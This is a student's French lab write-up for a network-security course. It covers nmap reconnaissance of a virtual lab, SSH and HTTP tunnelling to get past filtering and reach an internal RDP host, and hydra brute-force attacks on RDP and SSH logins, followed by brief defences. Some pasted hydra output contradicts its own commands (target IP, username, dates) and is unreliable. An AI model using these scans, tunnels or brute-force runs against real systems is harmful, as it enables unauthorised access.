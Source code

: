 # tp-outils-cyber
### Mirija Jonathan RAJOELAIRIVONY ANDRIAMAHERY
## EXERCICE 1 - Découverte de cibles

#### Depuis le WAN, listez les hôtes accessibles sur le WAN (NAT Network).

```shell
$ nmap -sn 10.0.3.0/24
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-20 10:14 EST
Nmap scan report for 10.0.3.1
Host is up (0.00015s latency).
MAC Address: 52:54:00:22:46:10 (QEMU virtual NIC)
Nmap scan report for b005-12.etudiants.campus.villejuif (10.0.3.2)
Host is up (0.00014s latency).
MAC Address: 52:54:00:22:46:10 (QEMU virtual NIC)
Nmap scan report for b006-03.etudiants.campus.villejuif (10.0.3.4)
Host is up (0.00012s latency).
MAC Address: 08:00:27:88:C4:AA (Oracle VirtualBox virtual NIC)
Nmap scan report for efrei-fw12vxu0.campus.villejuif (10.0.3.20)
Host is up (0.0011s latency).
MAC Address: 08:00:27:DD:22:9B (Oracle VirtualBox virtual NIC)
Nmap scan report for b005-12.etudiants.campus.villejuif (10.0.3.5)
Host is up.
Nmap done: 256 IP addresses (5 hosts up) scanned in 2.31 seconds
```

```shell
$ nmap 10.0.3.20      
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-20 10:15 EST
Nmap scan report for efrei-fw12vxu0.campus.villejuif (10.0.3.20)
Host is up (0.0015s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 08:00:27:DD:22:9B (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 5.01 seconds
```

#### Toujours depuis le WAN, essayez de lister les machines présentes sur le LAN et la DMZ. Pourquoi n'y arrivez-vous pas?
Je ne peux contacter que le serveur web car il est en NAT.

#### Depuis la DMZ, listez les cibles potentielles. Pouvez-vous détecter les machines du LAN?
```bash
$ nmap -sn 192.168.44.0/24
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-20 10:05 EST
Nmap scan report for 192.168.44.210
Host is up (0.00079s latency).
MAC Address: 08:00:27:FA:0C:B9 (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.44.254
Host is up (0.00082s latency).
MAC Address: 08:00:27:C2:1A:D3 (Oracle VirtualBox virtual NIC)
Nmap scan report for E92BE3E8 (192.168.44.66)
Host is up.
Nmap done: 256 IP addresses (3 hosts up) scanned in 6.95 seconds
```

```bash
$ sudo nmap -sV -O 192.168.44.210
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-20 10:09 EST
Nmap scan report for 192.168.44.210
Host is up (0.00076s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
MAC Address: 08:00:27:FA:0C:B9 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
```

```bash
$ nmap 192.168.44.254    
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-20 10:11 EST
Nmap scan report for 192.168.44.254
Host is up (0.00074s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE
53/tcp  open  domain
80/tcp  open  http
443/tcp open  https
MAC Address: 08:00:27:C2:1A:D3 (Oracle VirtualBox virtual NIC)
```

#### Depuis le LAN, listez les cibles accessibles. Voyez-vous toutes les machines et tous les services?
```bash
$ nmap 192.168.43.0/24
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-20 10:00 EST

Nmap scan report for 192.168.43.210
Host is up (0.00088s latency).
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
5357/tcp open  wsdapi
MAC Address: 08:00:27:6A:7E:D2 (Oracle VirtualBox virtual NIC)

Nmap scan report for 192.168.43.211
Host is up (0.00031s latency).
PORT     STATE SERVICE
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
2049/tcp open  nfs
MAC Address: 08:00:27:FB:2B:66 (Oracle VirtualBox virtual NIC)

Nmap scan report for 192.168.43.254
Host is up (0.0011s latency).
PORT    STATE SERVICE
53/tcp  open  domain
80/tcp  open  http
443/tcp open  https
MAC Address: 08:00:27:BB:55:81 (Oracle VirtualBox virtual NIC)
```

## EXERCICE 2 - Intérêt de la DMZ et trafic entrant depuis le WAN

#### Activez l'accès SSH depuis le WAN vers le serveur WEB de la DMZ.

```bash
apt-get install openssh-server
```

```bash
$ nmap 10.0.3.20
[...]
80/tcp open  http
```

```bash
$ ssh sakuta@10.0.3.20
sakuta@10.0.3.20's password: 
Linux debian 6.1.0-31-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.128-1 (2025-02-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
sakuta@debian:~$
```

#### Tunnel SSH pour accéder au RDP :

![reverse](reverse.png)
![reverse2](reverse2.png)
```bash
$ ssh -L 3389:192.168.43.210:3389 sakuta@10.0.3.20
```

```bash
$ rdesktop 127.0.0.1
Autoselecting keyboard map 'en-us' from locale
Core(warning): Certificate received from server is NOT trusted by this system, an exception has been added by the user to trust this specific certificate.
Failed to initialize NLA, do you have correct Kerberos TGT initialized ?
Core(warning): Certificate received from server is NOT trusted by this system, an exception has been added by the user to trust this specific certificate.
Connection established using SSL.
```

![rdesktop](rdesktop.png)

## EXERCICE 3 - Contournement de règles de filtrage IP

#### Tunnel HTTP pour faire passer SSH :

![parametre](parametre.png)

```bash
$ hts -F localhost:22 80
```

```bash
$ htc -F 10000 10.0.3.20:80

$ ssh sakuta@localhost -p 10000
sakuta@localhost's password: 
Linux debian 6.1.0-31-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.128-1 (2025-02-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Feb 21 15:30:22 2025 from 10.0.3.5
sakuta@debian:~$
```

## EXERCICE 4 - Attaques par force brute

```bash
$ hydra -t 1 -V -f -l jean -P liste.txt rdp://192.168.43.210
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-20 04:26:59
[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
[DATA] max 1 task per 1 server, overall 1 task, 8 login tries (l:1/p:8), ~8 tries per task
[DATA] attacking rdp://192.168.33.200:3389/
[ATTEMPT] target 192.168.43.210 - login "jean" - pass "toto" - 1 of 8 [child 0] (0/0)
[ATTEMPT] target 192.168.43.210 - login "jean" - pass "yolo" - 2 of 8 [child 0] (0/0)
[ATTEMPT] target 192.168.43.210 - login "jean" - pass "sepuku" - 3 of 8 [child 0] (0/0)
[ATTEMPT] target 192.168.43.210 - login "jean" - pass "ratata" - 4 of 8 [child 0] (0/0)
[ATTEMPT] target 192.168.43.210 - login "jean" - pass "bingbong" - 5 of 8 [child 0] (0/0)
[ATTEMPT] target 192.168.43.210 - login "jean" - pass "P@ssw0rd" - 6 of 8 [child 0] (0/0)
[3389][rdp] host: 192.168.43.210   login: jean   password: P@ssw0rd
[STATUS] attack finished for 192.168.43.210 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-03-20 18:30:12

```

```bash
$ hydra -l sakuta -P liste.txt 10.0.3.20 ssh -t 4
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-20 19:02:30
[DATA] max 4 tasks per 1 server, overall 4 tasks, 9 login tries (l:1/p:9), ~3 tries per task
[DATA] attacking ssh://10.0.3.20:22/
[22][ssh] host: 10.0.3.20   login: carambole   password: P@ssw0rd
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-03-20 19:02:37
```

#### Pour protéger les accès :

- Utiliser `fail2ban`
- Filtrer les IP sources (autoriser uniquement depuis le LAN)